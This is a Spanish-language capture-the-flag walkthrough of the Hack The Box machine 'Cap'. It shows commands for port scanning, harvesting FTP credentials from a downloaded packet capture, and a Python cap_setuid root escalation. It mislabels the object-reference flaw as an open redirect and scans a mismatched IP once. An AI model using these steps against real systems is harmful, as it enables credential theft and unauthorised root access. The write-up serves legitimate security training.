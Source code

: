 ```yaml
---
description: '✍️ Autor: infosecjack 🔍 Dificultad: Fácil 📅 Fecha de creación: 20/09/2021'
---
```


# Cap

### 🔍 RECONOCIMIENTO

En primer lugar, tras conectarnos a la máquina, utilizamos el comando:

```bash
ping -c 1 10.10.10.245
```

para verificar la conectividad de red.

<figure><img src="../../.gitbook/assets/image (26).png" alt=""><figcaption></figcaption></figure>

A continuación, realizamos el comando:

```bash
nmap -sC -sV 10.10.10.245
```

para realizar un escaneo de puertos y servicios detallado en la dirección IP.

<figure><img src="../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Como podemos observar durante el escaneo que el **puerto 21** perteneciente al **servicio FTP** el **puerto 22** perteneciente al **servicio SSH** y el **puerto 80** perteneciente al **servicio HTTP** están abiertos por lo que a continuación se indagará más.

### 🔎 EXPLORACIÓN

Se utiliza el comando:

```bash
sudo nmap -sCV -p22,80 -v 10.10.11.11
```

para que nos proporcione más información sobre esos puertos específicamente. Entramos a la página web para ver que contiene.

<figure><img src="../../.gitbook/assets/image (2) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (3) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

### 🚀 **EXPLOTACIÓN**

Si modificamos y ponemos `/data/0` cambian los números y si modificamos con otros números se aplica un **Open Redirect**.

<figure><img src="../../.gitbook/assets/image (4) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Nos lo descargamos y vemos que son paquetes de Wireshark por lo que los analizamos.

```bash
tshark -r 0.pcap
```

<figure><img src="../../.gitbook/assets/image (5) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Filtramos para ver mejor la información relevante de la captura.

```bash
tshark -r 0.pcap -Y "ftp" 2>/dev/null
```

<figure><img src="../../.gitbook/assets/image (6) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Nos salen unas credenciales por lo que nos logueamos. Descargamos los archivos que contiene.

```
ftp nathan@10.10.10.245
get user.txt
```

<figure><img src="../../.gitbook/assets/image (7) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Iniciamos sesión con el usuario **nathan**.

```bash
ssh nathan@10.10.10.245
```

<figure><img src="../../.gitbook/assets/image (8) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

### 🔐 **PRIVILEGIOS**

Al estar dentro y ejecutar:

```bash
whoami
```

aún no somos **root**, por lo que hacemos:

```bash
sudo -l
```

para ver si hay algo para explotar pero nos pide contraseña. Tampoco tenemos permisos SUID. Pensamos que si la máquina se llama Cap tiene algo que ver con **capabilities** por lo que miramos.

```bash
getcap -r / 2>/dev/null
```

<figure><img src="../../.gitbook/assets/image (1161).png" alt=""><figcaption></figcaption></figure>

Muestra que **/usr/bin/python3.8** tiene las capacidades **cap\_setuid** y **cap\_net\_bind\_service**, lo cual no es el valor predeterminado. **CAP\_SETUID** permite cambiar a UID 0 (root) sin necesidad del bit SUID.

Ejecutamos.

```bash
python3.8

import os
os.setuid(0)
os.system("/bin/bash")
```

Ya somos **root**.

<figure><img src="../../.gitbook/assets/image (1162).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (1163).png" alt=""><figcaption></figcaption></figure>
